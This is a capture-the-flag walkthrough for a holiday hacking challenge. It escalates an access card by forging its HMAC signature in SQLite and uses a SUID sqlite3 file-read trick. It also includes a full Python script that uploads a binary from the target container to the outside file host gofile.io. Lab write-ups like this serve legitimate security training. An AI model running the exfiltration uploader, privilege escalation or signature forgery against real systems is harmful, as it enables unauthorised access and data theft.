


## Objectives



## Hints


## Solution

> [!TIP] 
> If your the type that wants to know how the executables work before you start, I recommend that you jump to the [UBoot](#Steps%20(U-Boot)) section which you can use to extract the binaries and take a look at the contents. Otherwise recommend reviewing the supporting analysis [Main In-depth Analysis](../../../Supporting/act1/hardware-part-2/Main%20In-depth%20Analysis.md) and [SLH in-depth Analysis](../../../Supporting/act1/hardware-part-2/SLH%20in-depth%20Analysis.md)


### Silver (SLH)
- Initial boot


- Initial look around


```bash
slh --help
slg --config
slh --passcode CandyCaneCrunch77 --set-access 1 --id 143
```
- Get Access details
```bash
slh --view-card 143
```

```
Details of card with ID: 143
(143, '2ab30a6d-d98a-4877-b3b6-811d6b9a3c7b', 1, 'cf37031cc9584089be4766cf798fab057b3c2d3c68af43cc572b8cd29f5b4367')
```


```
       *   *   *   *   *   *   *   *   *   *   *
   *                                             *
*      ❄  ❄  ❄  ❄  ❄  ❄  ❄  ❄  ❄  ❄  ❄  ❄  ❄     *
 *  $$$$$$\   $$$$$$\   $$$$$$\  $$$$$$$$\  $$$$$$\   $$$$$$\  * 
  * $$  __$$\ $$  __$$\ $$  __$$\ $$  _____|$$  __$$\ $$  __$$\ *
   *$$ /  $$ |$$ /  \__|$$ /  \__|$$ |      $$ /  \__|$$ /  \__| *
    $$$$$$$$ |$$ |      $$ |      $$$$$\    \$$$$$$\  \$$$$$$\   
   *$$  __$$ |$$ |      $$ |      $$  __|    \____$$\  \____$$\  *
  * $$ |  $$ |$$ |  $$\ $$ |  $$\ $$ |      $$\   $$ |$$\   $$ | *
*   $$ |  $$ |\$$$$$$  |\$$$$$$  |$$$$$$$$\ \$$$$$$  |\$$$$$$  |   *
 *  \__|  \__| \______/  \______/ \________| \______/  \______/  *
*         *    ❄             ❄           *        ❄    ❄    ❄   *
   *        *     *     *      *     *      *    *      *      *
   *  $$$$$$\  $$$$$$$\   $$$$$$\  $$\   $$\ $$$$$$$$\ $$$$$$$$\ $$$$$$$\  $$\  *
   * $$  __$$\ $$  __$$\ $$  __$$\ $$$\  $$ |\__$$  __|$$  _____|$$  __$$\ $$ | *
  *  $$ /  \__|$$ |  $$ |$$ /  $$ |$$$$\ $$ |   $$ |   $$ |      $$ |  $$ |$$ |*
  *  $$ |$$$$\ $$$$$$$  |$$$$$$$$ |$$ $$\$$ |   $$ |   $$$$$\    $$ |  $$ |$$ | *
 *   $$ |\_$$ |$$  __$$< $$  __$$ |$$ \$$$$ |   $$ |   $$  __|   $$ |  $$ |\__|*
  *  $$ |  $$ |$$ |  $$ |$$ |  $$ |$$ |\$$$ |   $$ |   $$ |      $$ |  $$ |   *
*    \$$$$$$  |$$ |  $$ |$$ |  $$ |$$ | \$$ |   $$ |   $$$$$$$$\ $$$$$$$  |$$\ *
 *    \______/ \__|  \__|\__|  \__|\__|  \__|   \__|   \________|\_______/ \__|  *
  *                                                            ❄    ❄    ❄   *
   *      *    *    *    *    *    *    *    *    *    *    *    *    *    *                                                                                                                                        

Card 42 granted access level 1.
```


### Steps  (Gold)
- Connect to the SQLite Database Service
```bash
sqlite3
```

- open the database access_cards that we can see from the directory we boot into

```bash
.open access_cards
```

- Determine the table structure

```sql
PRAGMA table_info(access_cards);
```

- Get the access details for Access Card 42

> [!NOTE]
> I was able to skip a step here because I know that the HMAC is comprised of the UUID, and the access level, so those are the two components that I pulled. This can be asertained by looking at the config, but will refer back to this when creating the actual contents
> 

```sql
select uuid, access FROM access_cards where ID=42;
```

- Now we need to update the permissions of this card by creating a new signature and an SQL update command. So we have to identify the format, which can be seen by the config information


```sql
SELECT * FROM config;
```

- With this knowledge we can take the `{access-level}{uuid}` to create the HMAC needed to escalate the privileges , but we need to make use of that `hmac_secret` 



```recipe
HMAC(%7B'option':'UTF8','string':'9ed1515819dec61fd361d5fdabb57f41ecce1a5fe1fe263b98c0d6943b9b232e'%7D,'SHA256')&input=MWMwNjAxOGI2LTVlODAtNDM5NS1hYjcxLWFlNTEyNDU2MDE4OQ
```

- Now we can use that signed HMAC value to update access card 42


```sql
UPDATE access_cards SET access = 1, sig = '135a32d5026c5628b1753e6c67015c0f04e26051ef7391c2552de2816b1b7096' WHERE id = 42;
```


### Solution (Gold Alternative)
#### Using The Shell For Database
- Run `/usr/bin/sqlite3` as identified in [SUID Binary Listing](#find%20/%20-perm%20-u=s%20-type%20f%202>/dev/null) by passing in the file to read ([Reference](https://gtfobins.github.io/gtfobins/sqlite3/))
```bash
LFILE=FILETOREAD
/usr/bin/sqlite3 << EOF
CREATE TABLE t(line TEXT);
.import $LFILE t
SELECT * FROM t;
EOF
```


#### Answer Questions


## Additional Enumeration/Reconnaissance Information


### df
```
Filesystem      Size  Used Avail Use% Mounted on
overlay         296G   19G  265G   7% /
tmpfs            64M     0   64M   0% /dev
shm              64M     0   64M   0% /dev/shm
/dev/sda1       296G   19G  265G   7% /etc/hosts
tmpfs            16G     0   16G   0% /proc/acpi
tmpfs            16G     0   16G   0% /sys/firmware
```

### /etc/hosts
```
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.17.0.17     736c31e57562
```
### /etc/passwd
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
slh:x:1000:1000::/home/slh:/bin/bash
```

### /etc/cron.d/e2scrub_all
```
30 3 * * 0 root test -e /run/systemd/system || SERVICE_MODE=1 /usr/lib/x86_64-linux-gnu/e2fsprogs/e2scrub_all_cron
10 3 * * * root test -e /run/systemd/system || SERVICE_MODE=1 /sbin/e2scrub_all -A -r
```

### enable -a
```
enable -a
enable .
enable :
enable [
enable alias
enable bg
enable bind
enable break
enable builtin
enable caller
enable cd
enable command
enable compgen
enable complete
enable compopt
enable continue
enable declare
enable dirs
enable disown
enable echo
enable enable
enable eval
enable exec
enable exit
enable export
enable false
enable fc
enable fg
enable getopts
enable hash
enable help
enable history
enable jobs
enable kill
enable let
enable local
enable logout
enable mapfile
enable popd
enable printf
enable pushd
enable pwd
enable read
enable readarray
enable readonly
enable return
enable set
enable shift
enable shopt
enable source
enable suspend
enable test
enable times
enable trap
enable true
enable type
enable typeset
enable ulimit
enable umask
enable unalias
enable unset
enable wait
```

### find / -perm -u=s -type f 2>/dev/null
```
find / -perm -u=s -type f 2>/dev/null
/usr/bin/chsh
/usr/bin/umount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/sqlite3
/usr/bin/slh
/usr/local/sbin/runtoanswer
```
### Steps (U-Boot)
> [!CAUTION] 
> This is a giant rabbit hole as this proves to be nothing important, but tests the assumption that this UBoot Loader is entirely fake and is not part of the actual solution


#### Maybe There is Something?
> [!NOTE]
> If we make some basic assumptions here, such as this is a container, intended for solving a challenge, then there is like an entrypoint somewhere that kicks off the activity in the container

- Changed to the root of the SLH system to see how the uboot is setup for entry. Found an `etnrypoint.sh`

 /entrypoint.sh
```bash
#!/bin/bash

# Run the HMAC checking  as root
/root/check_hmac &

# Get the PID of the background process if needed
HMAC_PID=$!

# Switch to the slh user to run the main application
su -c "/usr/bin/main" slh

# Optionally wait for the background process (HMAC checking script)
wait $HMAC_PID
```

>[!TIP]
>This script shows the `check_hmac` running in the background, and the main `slh` application being used through the `/usr/bin/main` console

- Since this script launches the `/usr/bin/main` we should examine that bin folder and see what is there and what we can extract

- Looking around here, there is no common utils for reverse shells, such as NetCat, Curl, WGet, or Secure Copy, but there appears to be python3. So maybe we can create a exporter that way. First we need a server to listen to to received this data. I have opt'd to use an upload file service `gofile.io`

- With that server allowing an update, we create a client in python3 that can take the binary file send it to an upload. 
>[!NOTE]
>You don't have access to requests module, so we have to use Urllib instead to allow for the upload to occur
>
```python
import urllib.request
import urllib.error
import urllib.parse
import json
import os
import time
import sys
import argparse
from typing import Optional, List, Dict, Union
from dataclasses import dataclass


@dataclass
class Server:
    name: str
    zone: str


class GoFileClient:
    """A client for interacting with the Gofile API."""

    BASE_URL = "https://api.gofile.io"

    def __init__(self, api_token: Optional[str] = None):
        """
        Initialize the GoFile client.

        Args:
            api_token: Optional API token for authenticated requests
        """
        self.api_token = api_token or os.getenv('GOFILE_TOKEN')
        self._last_server_fetch = 0
        self._cached_servers = None

    def _get_headers(self) -> Dict[str, str]:
        """Get headers for API requests."""
        headers = {}
        if self.api_token:
            headers['Authorization'] = f'Bearer {self.api_token}'
        return headers

    def _make_request(self, url: str, method: str = 'GET', data: Optional[Dict] = None,
                      files: Optional[Dict] = None) -> Dict:
        """Make an HTTP request and return JSON response."""
        headers = self._get_headers()

        if files:
            # Handle multipart/form-data for file uploads
            boundary = 'boundary123456789'
            headers['Content-Type'] = f'multipart/form-data; boundary={boundary}'

            body = []
            # Add regular form fields
            if data:
                for key, value in data.items():
                    body.append(f'--{boundary}'.encode())
                    body.append(f'Content-Disposition: form-data; name="{key}"'.encode())
                    body.append(b'')
                    body.append(str(value).encode())

            # Add file data
            for key, filepath in files.items():
                filename = os.path.basename(filepath)
                body.append(f'--{boundary}'.encode())
                body.append(
                    f'Content-Disposition: form-data; name="{key}"; filename="{filename}"'.encode()
                )
                body.append(b'Content-Type: application/octet-stream')
                body.append(b'')
                with open(filepath, 'rb') as f:
                    body.append(f.read())

            body.append(f'--{boundary}--'.encode())
            body.append(b'')
            body = b'\r\n'.join(body)
        else:
            # Handle JSON requests
            if data:
                body = json.dumps(data).encode('utf-8')
                headers['Content-Type'] = 'application/json'
            else:
                body = None

        request = urllib.request.Request(
            url,
            data=body,
            headers=headers,
            method=method
        )

        try:
            with urllib.request.urlopen(request) as response:
                response_data = response.read()
                return json.loads(response_data)
        except urllib.error.HTTPError as e:
            error_body = e.read().decode('utf-8')
            try:
                error_json = json.loads(error_body)
                raise Exception(f"API Error: {error_json}")
            except json.JSONDecodeError:
                raise Exception(f"HTTP Error: {e.code} - {error_body}")
        except urllib.error.URLError as e:
            raise Exception(f"Connection Error: {str(e)}")

    def get_servers(self, zone: Optional[str] = None) -> List[Server]:
        """Get available servers for upload."""
        current_time = time.time()

        if self._cached_servers and (current_time - self._last_server_fetch) < 10:
            servers = self._cached_servers
        else:
            data = self._make_request(f"{self.BASE_URL}/servers")

            if data['status'] != 'ok':
                raise Exception(f"Failed to get servers: {data}")

            servers = [Server(**server) for server in data['data']['servers']]
            self._cached_servers = servers
            self._last_server_fetch = current_time

        if zone:
            servers = [s for s in servers if s.zone == zone]

        return servers

    def upload_file(
            self,
            file_path: str,
            folder_id: Optional[str] = None,
            server: Optional[Server] = None
    ) -> Dict:
        """Upload a file to Gofile."""
        if not os.path.exists(file_path):
            raise FileNotFoundError(f"File not found: {file_path}")

        if not server:
            servers = self.get_servers()
            if not servers:
                raise Exception("No servers available")
            server = servers[0]

        data = {}
        if folder_id:
            data['folderId'] = folder_id

        url = f"https://{server.name}.gofile.io/contents/uploadfile"
        result = self._make_request(
            url,
            method='POST',
            data=data,
            files={'file': file_path}
        )

        if result['status'] != 'ok':
            raise Exception(f"Upload failed: {result}")

        return result['data']

    def create_folder(
            self,
            parent_folder_id: str,
            folder_name: Optional[str] = None
    ) -> Dict:
        """Create a new folder."""
        if not self.api_token:
            raise ValueError("API token required for folder creation")

        data = {'parentFolderId': parent_folder_id}
        if folder_name:
            data['folderName'] = folder_name

        result = self._make_request(
            f"{self.BASE_URL}/contents/createFolder",
            method='POST',
            data=data
        )

        if result['status'] != 'ok':
            raise Exception(f"Folder creation failed: {result}")

        return result['data']

    def update_content(
            self,
            content_id: str,
            attribute: str,
            value: Union[str, bool, int]
    ) -> Dict:
        """Update content attributes."""
        if not self.api_token:
            raise ValueError("API token required for content updates")

        valid_attributes = {"name", "description", "tags", "public", "expiry", "password"}
        if attribute not in valid_attributes:
            raise ValueError(f"Invalid attribute. Must be one of: {valid_attributes}")

        data = {
            'attribute': attribute,
            'attributeValue': str(value)
        }

        result = self._make_request(
            f"{self.BASE_URL}/contents/{content_id}/update",
            method='PUT',
            data=data
        )

        if result['status'] != 'ok':
            raise Exception(f"Update failed: {result}")

        return result['data']

    def delete_contents(self, content_ids: List[str]) -> Dict:
        """Delete multiple contents (files or folders)."""
        if not self.api_token:
            raise ValueError("API token required for content deletion")

        data = {'contentsId': ','.join(content_ids)}

        result = self._make_request(
            f"{self.BASE_URL}/contents",
            method='DELETE',
            data=data
        )

        if result['status'] != 'ok':
            raise Exception(f"Deletion failed: {result}")

        return result['data']


def main():
    parser = argparse.ArgumentParser(description='Gofile API Client')
    subparsers = parser.add_subparsers(dest='command', help='Commands')

    # Upload command
    upload_parser = subparsers.add_parser('upload', help='Upload a file')
    upload_parser.add_argument('file', help='File to upload')
    upload_parser.add_argument('--folder', help='Folder ID to upload to')
    upload_parser.add_argument('--zone', choices=['eu', 'na'], help='Preferred server zone')

    # Create folder command
    folder_parser = subparsers.add_parser('create-folder', help='Create a new folder')
    folder_parser.add_argument('parent', help='Parent folder ID')
    folder_parser.add_argument('--name', help='Folder name')

    # Update content command
    update_parser = subparsers.add_parser('update', help='Update content attributes')
    update_parser.add_argument('content_id', help='Content ID to update')
    update_parser.add_argument('attribute',
                               choices=['name', 'description', 'tags', 'public', 'expiry', 'password'],
                               help='Attribute to modify')
    update_parser.add_argument('value', help='New value for the attribute')

    # Delete command
    delete_parser = subparsers.add_parser('delete', help='Delete contents')
    delete_parser.add_argument('content_ids', nargs='+', help='Content IDs to delete')

    # Server list command
    server_parser = subparsers.add_parser('servers', help='List available servers')
    server_parser.add_argument('--zone', choices=['eu', 'na'], help='Filter by zone')

    args = parser.parse_args()

    if not args.command:
        parser.print_help()
        return

    client = GoFileClient()

    try:
        if args.command == 'upload':
            server = None
            if args.zone:
                servers = client.get_servers(zone=args.zone)
                if servers:
                    server = servers[0]

            result = client.upload_file(args.file, folder_id=args.folder, server=server)
            print(f"File uploaded successfully!")
            print(f"Download page: {result['downloadPage']}")
            print(f"File ID: {result['fileId']}")

        elif args.command == 'create-folder':
            result = client.create_folder(args.parent, args.name)
            print(f"Folder created successfully!")
            print(f"Folder ID: {result['folderId']}")
            print(f"Folder code: {result['code']}")

        elif args.command == 'update':
            result = client.update_content(args.content_id, args.attribute, args.value)
            print("Content updated successfully!")

        elif args.command == 'delete':
            result = client.delete_contents(args.content_ids)
            print("Contents deleted successfully!")

        elif args.command == 'servers':
            servers = client.get_servers(zone=args.zone)
            print("\nAvailable servers:")
            for server in servers:
                print(f"- {server.name} (Zone: {server.zone})")

    except Exception as e:
        print(f"Error: {str(e)}", file=sys.stderr)
        sys.exit(1)


if __name__ == '__main__':
    main()
```

- we can upload this to the slhconsole by adding `cat << 'EOF' > upload_file.py` and `EOF` at the end which would save it to the system:

- attempt to upload the file via `python3 upload_file.py upload --zone na /usr/bin/main`

- After the upload is complete we get a link that we can copy which contains the file: https://gofile.io/d/xvBRIx
>[!NOTE] 
>This link likely will not be active at the time of release of this walkthrough, but is accessible via the files folder here: [main (ELF Binary)](../../../Assets/files/act1/hardware-part-2/main)
- time to analyze the binary file by running strings on it and looking through it. There is the entire output [Strings Output (main)](../../../Assets/files/act1/hardware-part-2/main.strings) , but when examining that we can see some python strings like `python interpreter!`, so we can grep this output for python and see what its trying to do
```bash
strings main | grep python
```

- Ok so we know this is a binary, and we know it has references to the python shared libraries, so this was likely a python project that has been complied into a binary through a third party tool like `PyInstaller`. Under this assumption, we can try to unpack this via [PyInsxtractor](../../../Assets/code/act1/hardware-part1/pyinstxtractor.py) ([extremecoders-re/pyinstxtractor: PyInstaller Extractor](https://github.com/extremecoders-re/pyinstxtractor)) 
```bash
python3 ./pyinsxtractor.py main
```

- With this we are able to see that we have compiled python files (pyc) which needs to be decoded. There are several ways, but an easy one to do this with is online ([python decompiler online - Google Search](https://www.google.com/search?q=python+decompiler+online)) -- Any of which should work. Using the first option available `PyLingual` -  https://pylingual.io/, is what I did.
- Need to determine what file to decompile though. If we look at the extracted files from the extractor we see 

- But the `pyc` files are what we really care about here to see what is happening. lets filter that with 
```bash
ls | grep .pyc
```

- So these are the files we need to decode:
	- [main.pyc_decompiled.py](../../../Assets/files/act1/hardware-part-2/main_extracted/main.pyc_decompiled.py)
	- [pyi_rth_inspect.pyc_decompiled.py](../../../Assets/files/act1/hardware-part-2/main_extracted/pyi_rth_inspect.pyc_decompiled.py)
	- [struct.pyc_decompiled.py](../../../Assets/files/act1/hardware-part-2/main_extracted/struct.pyc_decompiled.py)
	- [pyimod01_archive.pyc_decompiled.py](../../../Assets/files/act1/hardware-part-2/main_extracted/pyimod01_archive.pyc_decompiled.py)
	- [pyiboot01_bootstrap.pyc_decompiled.py](../../../Assets/files/act1/hardware-part-2/main_extracted/pyiboot01_bootstrap.pyc_decompiled.py) 
	- [pyimod02_importers.pyc_decompiled.py](../../../Assets/files/act1/hardware-part-2/main_extracted/pyimod02_importers.pyc_decompiled.py)
	- [pyimod03_ctypes.pyc_decompiled.py](../../../Assets/files/act1/hardware-part-2/main_extracted/pyimod03_ctypes.pyc_decomplied.py)
- `main.pyc_decompiled.py`: This is the main application code that implements a U-Boot bootloader simulator/terminal interface. It's the core program with menu handling, commands, and bootloader simulation. The other files are PyInstaller bootstrap and runtime support files: 
	- `pyiboot01_bootstrap.pyc_decompiled.py`: This is PyInstaller's bootstrap code that sets up the frozen environment - it initializes paths, imports, and the environment for the packaged application to run.
	- `pyi_rth_inspect.pyc_decompiled.py`: A PyInstaller runtime hook that patches Python's inspect module to work correctly with frozen (compiled) modules.
	- `pyimod01_archive.pyc_decompiled.py`: PyInstaller's archive reader code that handles extracting Python modules from the compiled executable's archive (PYZ file).
	- `struct.pyc_decompiled.py`: A decompiled version of Python's built-in struct module, which is likely included because it's needed by the PyInstaller loader.
- From the `main.pyc_decompiled.py` code we can determine the settings needed to successfully create a TFTP setup
```bash
setenv ipaddr 192.168.54.1 
setenv netmask 255.255.255.0 
setenv serverip 192.168.54.32 
setenv bootfile backup.img
```

- Result would be verified through `printenv`

- If we launch the TFTP server based on this config we would get the following output

- which is odd, as we know that the bootfile is not `C0A80101.img`, we had already set it to `boot.img`. The second thing to note here is when that loaded via the filename option, this loaded the SLH application, which is the normal boot section.
	- If we look at the placements of tokens claimed by the system `/tmp/tokens` and `/usr/share/stuff/tokens` neither of the files or directories exist on the system, meaning that we can not view those potential credentials
- based on this we can pretty much assume that this is not an actual viable method and only a distraction. Refer to [Main In-depth Analysis](../../../Supporting/act1/hardware-part-2/Main%20In-depth%20Analysis.md) for more details.
